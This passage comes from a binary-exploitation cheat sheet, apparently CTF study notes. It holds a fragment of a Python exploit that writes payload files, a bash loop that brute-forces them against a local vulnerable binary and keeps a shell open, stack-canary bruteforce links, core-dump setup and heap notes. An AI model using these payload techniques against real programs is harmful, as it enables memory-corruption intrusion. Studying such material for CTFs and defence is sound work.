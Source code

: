 ```py
    payload += struct.pack("<I", address + X)    

    # shellcode
    with open(f"""payload-{i}""","wb") as f:
        f.write(payload)
        i+=1

```

```bash
python3 exploit.py
for e in $(ls payload*); do $(cat $e | ~/vuln) && echo $e ;done

# working payload-Y file outputted

(cat payload-Y; cat) | ~/vuln
```

### Bruteforce SSP

- https://0xswitch.fr/posts/leak-via-stack-smashing-protection
- https://www.dailysecurity.fr/la-stack-smashing-protection/

### Core files (BF alternative)

- https://unix.stackexchange.com/questions/89933/how-to-view-core-files-for-debugging-purposes-in-linux

```bash
ulimit -c unlimited; echo 'core' | sudo tee /proc/sys/kernel/core_pattern
mkdir /tmp/night
cp * /tmp/night
chmod -R 777 /tmp/night
cd /tmp/night
./binary 
```

Core generated:

```bash
gdb -q ./binary ./core
gdb -c core -q
```

## HEAP

**Allocation - création de la fragmentation et détails**

- https://samwho.dev/memory-allocation/
- https://stackoverflow.com/questions/30542428/does-malloc-use-brk-or-mmap

`If you use malloc in your code, it will call brk() at the beginning, allocated 0x21000 bytes from the heap, that's the address you printed, so the Question 1: the following mallocs requirements can be meet from the pre-allocated space, so these mallocs actually didn't call brk, it is a optimization in malloc. If next time you want to malloc size beyond that boundary, a new brk will be called (if not large than the mmap threshold).`
